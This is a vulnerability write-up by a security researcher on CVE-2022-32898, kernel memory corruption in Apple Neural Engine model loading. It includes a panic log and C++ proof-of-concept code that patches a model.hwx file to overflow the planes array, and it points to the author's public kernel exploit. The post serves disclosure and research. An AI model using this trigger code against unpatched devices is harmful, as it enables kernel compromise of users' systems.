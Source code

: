 ```yaml
---
layout: post
title:  "CVE-2022-32898: ANE_ProgramCreate() multiple kernel memory corruption"
categories: iOS
permalink: "/CVE-2022-32898/"
list_title: ' '
author: Mohamed GHANNAM (@_simo36)
---
```


## Intro:
While reverse-engineering the process of which the Apple Neural Engine loads a model in the kernel level, I identified two interesting memory corruption vulnerabilities in the code responsible for processing the neural network features in `H11ANEIn::ANE_ProgramCreate_gated()`. These kind of vulnerabilities, in my opinion, are easy to find when manually auditing the kernel driver, but nearly impossible to catch with fuzzers unless you build something incredibly sophisticated.

## Analysis:
---

The `ZinComputeProgramGetNamesFromMultiPlaneLinear()` and `ZinComputeProgramGetNamesFromMultiPlaneTiledCompressed()` functions are both responsible for parsing the procedure input and output, or more precisely, the `LC_THREAD` command with thread flavor 2 (`ane_bind_state`) whose `binding_type_info` value is 4 and 5.

From what I can tell, `binding_type_info = 4` means that a procedure's input has more than one plane, and `binding_type_info = 5` means that the input not only has more than one plane but is also compressed.


The `ZinComputeProgramGetNamesFromMultiPlaneLinear()` function for example takes 5 arguments: a load command pointer, a thread binding pointer, and three extra output arguments. The last output argument `planes` is an array that will hold planes, or kernel pointers, whose contents are controlled by the user, and the last argument `planeCount` will indicate how many planes (or kernel pointers) were copied into `planes` from the `model.hwx` file. The following is the function definition:

![Untitled](/img/CVE-2022-32898/image1.png)

Due to the lack of validation of how many planes a model can supply, kernel pointers could be written outside the bounds of the `planes` array, potentially leading to a many interesting memory corruption scenarios.

### Turning the memory corruption to stack overflow:
The `planes` array is a stack variable located in `H11ANEIn::ANE_ProgramCreate_gated()`, and by overflowing this variable (which is supposed to hold multiple planes up to 4 elements) with more than 4 planes, other stack variables could be corrupted as well, which could lead to other issues such as type-confusion since the overwriting kernel pointers are completely under user control. 

Obviously, overflowing the `planes` array with too much entries would likely overwrite the stack cookie as well as the saved old stack frame pointer, resulting in a kernel panic. Fortunately, the total number of planes is entirely within the control of the given model, thus we could corrupt several stack variables without affecting those sensitive areas of the stack.


## Turning the memory corruption to heap overflow:
Another interesting scenario, and as illustrated in the image below, it is possible to overflow two heap objects: `H11ANEProgramBindingInfo` (at line 528) and `H11ANEProgramCreateArgsStructOutput` (at line 533).

![Untitled](/img/CVE-2022-32898/image2.png)

``` c
struct H11ANEProgramBindingInfo
{
        struct {
                uint32_t field_0;
                char names[8][512];
                uint32_t field_1004;
                char *procedure_name;
        } inputs[255], outputs[255];

};
```


The structure definition of `H11ANEProgramCreateArgsStructOutput` is shown above, and  corrupting it could result in the following crashes:
 
```
"panicString" : "panic(cpu 4 caller 0xfffffe00112e6184): Kernel data abort. at pc 0xfffffe0010a8a48c, lr 0x03effe0011b1b47c (saved state: 0xfffffe6089dca980)
  x0:  0x1122334411223344 x1:  0xfffffe3000ecff20  x2:  0x0000000000000040  x3:  0x0000000000000000
  x4:  0x0000000000000000 x5:  0x0000000000000000  x6:  0x00000000000000e8  x7:  0x0000000000000830
  x8:  0xfffffe608949c000 x9:  0xfffffe24cec0d1b0  x10: 0xfffffe24cd7d4010  x11: 0xfffffe1667fa93e0
  x12: 0x0000000000000001 x13: 0x0000000000000858  x14: 0xfffffe3000ed0760  x15: 0x00292a20736d6172
  x16: 0x5bd9fe0010a8a470 x17: 0xfffffe0013ad55d8  x18: 0x0000000000000000  x19: 0x0000000000000000
  x20: 0x0000000000000001 x21: 0xfffffe1b33ee3860  x22: 0xfffffe299a621a00  x23: 0xfffffe2999c72208
  x24: 0xfffffe3000ec0000 x25: 0x00000000e00002d1  x26: 0xfffffe608949c000  x27: 0xfffffe60895a2054
  x28: 0xfffffe6089dcb850 fp:  0xfffffe6089dcacd0  lr:  0x03effe0011b1b47c  sp:  0xfffffe6089dcacd0
  pc:  0xfffffe0010a8a48c cpsr: 0x00401208         esr: 0x96000004          far: 0x1122334411223344
  
```


# Trigger the vulnerability:

What makes these vulnerabilities interesting is that it doesn't require you to interact directly with the kernel, in other words, no need to open a UserClient connection, you simply need to compile (or craft) a malicious model and let `aned` load it on your behalf.

As you may know, to load any model via `aned`, the model must be compiled by the `ANECompilerService` system service or signed by Apple. in other words, the app must provide a `.mlmodelc` directory to `aned` which will then request `ANECompilerService` to compile it to `model.hwx` using two frameworks called `Espresso` and `ANECompiler`. 
If you don't know what I'm talking about, you're welcome to take a look at #POC2022 slides [here](https://github.com/0x36/weightBufs/blob/main/attacking_ane_poc2022.pdf) where I gave a basic overview of how `aned` works. In addition, you can get more details about the compilation process in [Wish Wu](https://twitter.com/wish_wu)'s excellent [BlackHat talk](https://www.youtube.com/watch?v=1wvBDUnPNEo&ab_channel=BlackHat) regarding his research on ANE as well as [his great tool](https://github.com/antgroup-arclab/ANETools) that exactly mimics what `ANECompilerService` does.


In our case here, we need a `model.hwx` with a procedure whose input (or output) supports multiple planes. Unfortunately, no such model is available in the `mlmodel`, `mlmodelc` or `mlpackage` format, and only few models in `hwx` format are provided by Apple. Inspecting these `hwx` models revealed that they are using some weird/undocumented neural network operations that don't exist in the open source `coremltools` library code base, hinting that these network layers are likely for internal usage only. However, the implementation of these operations is defined by the `Espresso` framework, and some reversing is required to understand  what inputs and outputs they support and how to properly use them as a layer within a neural network. Since the framework is written in C++ with STL, I had no interest in reversing this operation because it'd take forver.

This was main reason that led me to discover `CVE-2022-32845` which not only allowed me to avoid reversing this scary framework, but also saved me hunders of hours of studying advanced Machine Learning topics.

So I took a simple `model.hwx` and patched one of its *LC_THREAD* commands to replicate the desired outcome in `ane_bind_state`, and then exploited `CVE-2022-32845` to trick `aned` into loading it as if it was signed by Apple; and that was enough to demostrate the vulnerability to Apple.

The function which patches the model is shown below, and you can borrow some codes from my [weightBufs kernel exploit](https://github.com/0x36/weightBufs/) if you want to trigger the vulnerability yourself.

``` c++
void patch_hwx(const mach_header_64 *mh,size_t mh_size)
{
        if((mh->magic != 0xfeedface) && (mh->magic != 0xbeefface)) {
                dbg("[-] Bad Mach-O file \n");
                return ;
        }

        struct load_command *lc = NULL;

        FOR_EACH_COMMAND {

                if (lc->cmd != LC_THREAD)
                        continue;

                dbg("LC_THREAD command found \n");

                compute_thread_command *thread = (compute_thread_command *)lc;
                u32 name_off = 0;
                switch (thread->flavor) {
                case THREAD_BINDING: {
                        name_off = *(uint32_t*)((char*)thread + 0x18);
                        dbg("Binding Name \n");
                        compute_thread_binding * bd =
                                (compute_thread_binding *)&thread->thread_states;

                        bd->binding_typeinfo = 4;
                        bd->field4 = 1;

                        u32 plane_count = 0x30;
                        char *buf_start = (char*)lc + 0x20;
                        *(u32 *) buf_start = 0;
                        *(u32 *) (buf_start + 0x10) = plane_count;
                        char *_ptr = buf_start + 0x6C;
                        int i = 0;
                        uint64_t off = 0;

                        do {
                                if(off == 0)
                                        off = (unsigned int)(_ptr + 4 - (char*)mh) + 8 ;
                                *(unsigned int *)_ptr = mh_size;

                                u64 *pp = (u64 *)&_ptr[4];
                                for(int k = 0; k < 4;k++)
                                        pp[k] = 0x1122334411223344;
                                _ptr += 0x68;

                        }while (i++ < plane_count);

                        patched = true;

                        return;
                }
                case THREAD_PROCEDURE_OPERATION:
                case THREAD_PROCEDURE:
                default:
                        break;
                }

                dbg("\t ProcedureName '%s' \n",(char*)thread + name_off);

        }

}
```


## The patch: 
---
Apple addressed the issue in iOS 16 by introducing some validation checks in both vulnerable functions, limiting the supplied plane count to four entries, as shown below:
![Untitled](/img/CVE-2022-32898/image3.png)

That's all for now, see you again soon!




